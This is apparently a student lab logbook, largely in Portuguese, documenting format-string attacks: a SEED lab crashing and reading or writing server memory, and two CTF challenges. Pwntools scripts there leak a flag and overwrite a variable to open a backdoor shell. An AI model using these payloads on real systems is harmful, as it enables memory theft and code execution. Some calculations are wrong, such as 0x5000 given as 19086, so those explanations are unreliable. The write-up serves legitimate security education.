

# LOGBOOK5 - Format-String Vulnerability Lab
## Task 1: Crashing the Program
>Your task is to provide an input to the server, such that when the server program tries to print out
the user input in the myprintf() function, it will crash. You can tell whether the format program has
crashed or not by looking at the container’s printout. If myprintf() returns, it will print out "Returned
properly" and a few smiley faces. If you don’t see them, the format program has probably crashed.
However, the server program will not crash; the crashed format program runs in a child process spawned
by the server program.

<div <div align="justify">
<p>
Para esta tarefa é nos pedido que construamos um input que faça com que o programa 'crash'. Para tal, pensamos em utilizar uma string composta unicamente por %s. Isto deve-se ao facto de que, ao utilizar %s, este obtem o valor que se encontra num localização de memória, e imprime-o. Assim, se colocarmos um número de %s signficativo, o programa poderá tentar aceder a uma localização que esteja protegida ou mesmo aceder a uma localização que não existe, o que irá fazer com que o programa 'crash'.
O input que utilizamos foi o seguinte:
</p>
</div>

```python

#!/usr/bin/python3
import sys


# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))


# This line shows how to construct a string s with
# 10 of "%s"
s = "%s"*10

# The line shows how to store the string s at the beginning of the content
fmt  = (s).encode('latin-1')
content[0:0+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:

  f.write(content)

```

<div <div align="justify">
<p>
Ao gerar o 'badfile' e enviar para o servidor, este 'crashou', como se pode ver na imagem abaixo:


</p>

<p>
Considerando que o myprintf() não imprimiu os smileys nem a mensagem "Returned properly", podemos concluir que o programa 'crashou'.
</div>

## Task 2: Printing Out the Server Program’s Memory
### 2.A: Stack data
>The goal is to print out the data on the stack. How many %x format specifiers
do you need so you can get the server program to print out the first four bytes of your input? You
can put some unique numbers (4 bytes) there, so when they are printed out, you can immediately tell.
This number will be essential for most of the subsequent tasks, so make sure you get it right.

<div <div align="justify">
<p>
De forma a descobrir o número de %x necessários para imprimir os primeiros 4 bytes do input, precisavamos de utilizar um input ao qual sabiamos o valor em hexadecimal. Assim decidimos utilizar esta string '0000' pois sabiamos que o seu valor em hexadecimal era '0x30303030'. Com isto, conseguimos construir o nosso 'input' que seria constituido de '0000' seguido de um número de %x suficiente (no nosso caso utilizamos 70) para imprimir os primeiros 4 bytes do input. O script que utilizamos para construir o nosso 'input' foi o seguinte:
</p>
</div>

```python

#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte string at offset 0
content[0:4]  =  ("0000").encode('latin-1')

# This line shows how to construct a string s with 70 of ".%.8x"
s =".%.8x"*70

# The line shows how to store the string s at offset 4 after overwriting the 4-byte string above
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

```

<div <div align="justify">
<p>
Decidimos colocar uma separação entre os %x de forma a que fosse mais fácil de contar o número de %x que tinhamos. Assim, o output que obtivemos foi o seguinte:
</p>


</div>

<div <div align="justify">
<p>
Com isto conseguimos concluir que só no 64º %x é que o valor do input é impresso. Assim, o número de %x necessários para imprimir os primeiros 4 bytes do input é 64.
</p>
</div>

### 2.B: Heap data
>There is a secret message (a string) stored in the heap area, and you can find the
address of this string from the server printout. Your job is to print out this secret message. To achieve
this goal, you need to place the address (in the binary form) of the secret message in the format string.

<div <div align="justify">
<p>
Para esta tarefa, percebemos que teriamos que imprimir o conteúdo da heap. Para tal, decidimos que teriamos que utilizar o %s, pois este imprime o conteúdo de uma localização de memória. Considerando que sabiamos o endereço da mensagem secreta, através do output do servidor, percebemos que bastava colocar esse endereço no input, seguido de 63 %x e um %s na posição 64 (que é onde o valor do input é impresso - tal como concluimos na tarefa anterior).


Assim, e considerando que o endereço da mensagem secreta é 0x080b4008, o nosso input foi gerado com o seguinte script:

```python

#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# The address of the secret message and its convertion to binary
secret_message_address = 0x080b4008
address_bytes = secret_message_address.to_bytes(4, byteorder='little')

# Store the secret message address at offset 4
content[0:4] = address_bytes

# This line shows the 63 %x followed by %s on the 64th position
s = ".%.8x"*63 + ".%s"

# Store the string s at offset 4
fmt = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
    f.write(content)

```

<p>
Com isto, conseguimos imprimir o conteúdo da heap, como se pode ver na imagem abaixo:
</p>


</div>

## Task 3: Modifying the Server Program’s Memory
>The objective of this task is to modify the value of the target variable that is defined in the server program
(we will continue to use 10.9.0.5). The original value of target is 0x11223344. Assume that this
variable holds an important value, which can affect the control flow of the program. If remote attackers can
change its value, they can change the behavior of this program.

### 3.A: Change the value to a different value.
>In this sub-task, we need to change the content of
the target variable to something else. Your task is considered as a success if you can change it to a
different value, regardless of what value it may be. The address of the target variable can be found
from the server printout.

<div <div align="justify">
<p>
Para esta tarefa, primeiro tivemos que perceber qual o endereço da variável target. Para tal, através do output do servidor, conseguimos perceber que o endereço da variável target é 0x080e5068. </p>


<p>
Com isto, conseguimos construir o nosso input, que seria constituido por 4 bytes que representam o endereço da variável target, seguido de 63 %x e um %n na posição 64. Assim, o nosso input foi gerado com o seguinte scrypt:
</p>

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# Find the address of the target variable and convert it to binary
secret_message_address = 0x080e5068
address_bytes = secret_message_address.to_bytes(4, byteorder='little')

# Store the secret message address at offset 4
content[0:4] = address_bytes

# This line shows the 63 %x followed by %n on the 64th position
s = ".%.8x"*63 + ".%n"

# Store the string s at offset 8
fmt = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
    f.write(content)

```

<p>
Com isto, conseguimos alterar o valor da variável target para 0x0000023C, como se pode ver na imagem abaixo:
</p>


<p>
O valor que obtivemos foi 0x0000023C, que corresponde a 572 em decimal. Isto deve-se ao facto de que o %n escreve o número de caracteres que foram impressos até ao momento. Assim, como foram impressos 572 caracteres até ao momento, o valor da variável target foi alterado para 572 = 0x0000023C.
</p>
</div>

### 3.B: Change the value to 0x5000
>In this sub-task, we need to change the content of the
target variable to a specific value 0x5000. Your task is considered as a success only if the variable’s value becomes 0x5000.

<div <div align="justify">
<p>
Para esta tarefa, tivemos que perceber qual o número de caracteres que tinhamos que imprimir até ao momento para que o valor da variável target fosse 0x5000. Considerando que anteriormente tinhamos conseguido alterar o valor da variável target para 572, e que o valor que queriamos obter era 0x5000, tivemos que imprimir 0x5000 - 572 = 0x4A8E = 19086 caracteres. Assim, considerando que eram impressos 63 %x e que cada continha 8 caracteres (%8x), tivemos que alterar este 'input' para que fossem impressos (19086/63) = 316 zeros antes de imprimir os 8 caracteres. Assim, bastava alterar o nosso 'input' para que ficasse da seguinte forma:
</p>

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# Find the address of the secret message and convert it to binary
secret_message_address = 0x080e5068
address_bytes = secret_message_address.to_bytes(4, byteorder='little')

# Store the secret message address at offset 4
content[0:4] = address_bytes

# Construct a string s with the appropriate number of %.324x format specifiers
# The 324 is obtained as follows:
# 1. There was 8 characters printed because of %x
# 2. Considering 0x5000 = 19086, we need to print 19086/63 = 316 zeros before printing the 8 characters.
# 3. Thus, we need 316+8 = 324 characters printed

s = ".%.324x"*63 + ".%.n"

# Store the string s at offset 8
fmt = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
    f.write(content)

```

<p>
Com isto, conseguimos alterar o valor da variável target para 0x5000, como se pode ver na imagem abaixo:
</p>


# LOGBOOK7 - CTF
## Desaio 1


>Análise do 'checksec'


- Partial RELRO: Isto significa que certas secções podem ser alteradas, mas apenas para apontar para uma localização de memória que já esteja protegida. Assim, não é possível alterar o endereço de uma função para uma localização de memória que não esteja protegida.

- Canary Found: Esta medida de segurança implica a presença de um "canário" (variável de controlo do fluxo) inserido na stack antes do endereço de retorno de uma função. Se essa variável for modificada, o programa será encerrado como uma medida de segurança contra tentativas de 'buffer overflow'.

- NX Enabled: Esta medida de segurança marca certas áreas de memória como não executáveis, o que impede que código malicioso seja executado a partir dessas áreas.

- No PIE: Considerado que o PIE está desativado, o endereço de memória das funções não é aleatório, o que facilita a exploração de vulnerabilidades.

- Tipos de ataques possíveis:
  - Format String Attack;

<br>


<div align="justify">

>Qual é a linha do código onde a vulnerabilidade se encontra?
<p>
A vulnerabilidade encontra-se na linha 27 quando se executa 'printf(buffer)'. Quando se passa informação diretamente para o 'printf()' sem utilizar uma 'format string', é possível utilizar 'format specifiers' como %s e %x para ler ou escrever em localizações de memória.
</p>

>O que é que a vulnerabilidade permite fazer?
<p>
A vulnerabilidade permite ler e escrever em localizações de memória, o que pode ser utilizado para alterar o valor de variáveis, potencialmente alterando o comportamento do programa.
</p>

>Qual é a funcionalidade que te permite obter a flag?
<p>
De forma a obter a flag, podemos utilizar os 'format specifiers' mencionados na primeira questão de forma a conseguirmos ler o conteúdo da variável 'flag' e imprimi-lo.
</p>

>Obtenção da flag
<p>
De forma a obtermos a flag, pensamos primeiramente em encontrar o endereço da variável 'flag'. Para tal, corremos o programa com o gdb. Assim, conseguimos encontrar o endereço da variável 'flag' que é: 0x804c060.
</p>

```bash
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04) 12.1
Reading symbols from program...
(gdb) b fflush
Breakpoint 1 at 0x80490d0
(gdb) run
Starting program:FSI/Semana7-Desafio1/program
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Try to unlock the flag.

Breakpoint 1, 0xf7df8a58 in fflush () from /lib32/libc.so.6
(gdb) p &flag
$1 = (char (*)[40]) 0x804c060 <flag>
(gdb)
```

<p>
Após isso decidimos decidimos verificar quantos '%x' precisariamos de utilizar para encontrarmos o conteúdo do nosso input. Para tal, colocamos como input '0000' e aquando a execução do script deveriamos procurar pelo valor '0x30303030'. Assim, o nosso script foi o seguinte: </p>

```python
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"0000" + b"%.8x"*10)
p.interactive()
```

<p>
Após a execução do script, conseguimos encontrar o valor '0x30303030' na posição 1.
</p>



<p>
Assim, conseguimos concluir que para obter a flag precisamo de colococar no nosso input, o endereço da variável 'flag' seguido de 1 '%s' para conseguir ler o seu conteúdo. Assim, o nosso script foi o seguinte:
</p>
</div>

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4004)

input_address = 0x804c060
address_bytes = input_address.to_bytes(4,byteorder='little')


p.recvuntil(b"got:")
p.sendline(address_bytes + b"%s")
p.interactive()
```

<p>
Executando o script, conseguimos obter a flag:
</p>


## Desafio 2

>Análise do 'checksec'


- No RELRO: Isto significa que a medidad de segurança RELRO não está ativa, o que permite que certas secções possam ser alteradas, mesmo que seja para apontar para uma localização de memória que não esteja protegida.

- Canary Found: Esta medida de segurança implica a presença de um "canário" (variável de controlo do fluxo) inserido na stack antes do endereço de retorno de uma função. Se essa variável for modificada, o programa será encerrado como uma medida de segurança contra tentativas de 'buffer overflow'.

- NX Enabled: Esta medida de segurança marca certas áreas de memória como não executáveis, o que impede que código malicioso seja executado a partir dessas áreas.

- No PIE: Considerado que o PIE está desativado, o endereço de memória das funções não é aleatório, o que facilita a exploração de vulnerabilidades.

- Tipos de ataques possíveis:
  - Format String Attack;

<br>


<div align="justify">

>Qual é a linha do código onde a vulnerabilidade se encontra? E o que é que a vulnerabilidade permite fazer?
<p>
A vulnerabilidade encontra-se na linha 14 quando se executa 'printf(buffer)'. Quando se passa informação diretamente para o 'printf()' sem utilizar uma 'format string', é possível utilizar 'format specifiers' como %s e %x para ler ou escrever em localizações de memória.
</p>

>O que é que a vulnerabilidade permite fazer?
<p>
A vulnerabilidade permite que um atacante leia ou escreva na memória fornecendo especificadores de formato (`%s`, `%x`, `%n`, etc.) na string de entrada. Por exemplo, um atacante poderia potencialmente modificar a variável `key` para ativar a "backdoor", levando à execução arbitrária de código.
</p>

>Qual é a funcionalidade que te permite obter a flag?
<p>
De forma a obter a flag, podemos utilizar os 'format specifiers' mencionados na resposta a pergunta anterior de forma alterar o valor da variável 'key' para 0xbeef e assim ativar a "backdoor".
</p>

>Obtenção da flag
<p>
De forma a obtermos a flag, pensamos primeiramente em encontrar o endereço da variável 'key'. Para tal, corremos o programa com o gdb. Assim, conseguimos encontrar o endereço da variável 'key' que é: 0x804b320.
</p>

```bash
(gdb) b fflush
Breakpoint 1 at 0x80490c0
(gdb) run
Starting program: /mnt/c/Users/tomas/OneDrive/Uni Shared/3o ano/1o semestre/FSI/Semana7-Desafio2/program
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0xf7df6a58 in fflush () from /lib32/libc.so.6
(gdb) p &key
$1 = (int *) 0x804b320 <key>
(gdb)
```

<p>
Após isso, fomos verificar quantos %x precisariamos de utilizar para encontrarmos o conteúdo do nosso input. Tal como aconteceu no desafio anterior, verificamos que se encontrava logo no primeiro %x.
</p>

<p>
Sendo assim, sabiamos que no nosso input teriamos que incluir o valor do endereço da variável 'key' seguido de 1 %n para alterar o seu valor. Os problemas durgiram quando verificamos que necessitavamos de imprimir 0xbeef = 48879 bytes de forma a alterar o valor da variável key e que como a máquina é little endian, o valor que temos que imprimir do endereço de memória é \x20\xb3\x04\x08 e o \x20\ é um caracter especial que não pode ser impresso. Assim, tivemos que encontrar uma forma de imprimir o valor do endereço de memória sem imprimir o \x20\.
</p>

<p>
Decidimos entao ajustar o endereço de memória que íamos usar no input para o endereço anterior (input_address = 0x804b320 - 1). Com essa alteração, ao considerarmos o endereço = 0x804b320, precisaríamos escrever 48879 bytes. No entanto, com o endereço = 0x804b31F, precisariamos de escrever 48879 * 256 = 12499968 bytes. Isso deve se ao facto de que há 256 possíveis valores para cada byte. Ao escrever 256 bytes adicionais, podemos ultrapassar o endereço de memória de 0x804b31F para 0x804b320, possibilitando a modificação do valor da variável 'key'. Assim, o nosso script foi o seguinte:
</p>

</div>

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4005)

input_address = 0x804b320 - 1
address_bytes = input_address.to_bytes(4, byteorder='little')

# Calculate padding needed to write 0xbeef
padding = 0xbeef * 256 - 4
difference = input_address - 0x804b320

payload = address_bytes + b"%"+str(padding).encode()+b"c"+b"%1$n"

p.sendline(payload)
p.interactive()
```

<p>
Com estas medidas, conseguimos portanto alterar o valor da variável 'key' para 0xbeef e assim ativar a "backdoor", o que nos dá acesso a uma bash, onde conseguimos obter a flag, lendo o conteúdo do ficheiro 'flag.txt'.
</p>


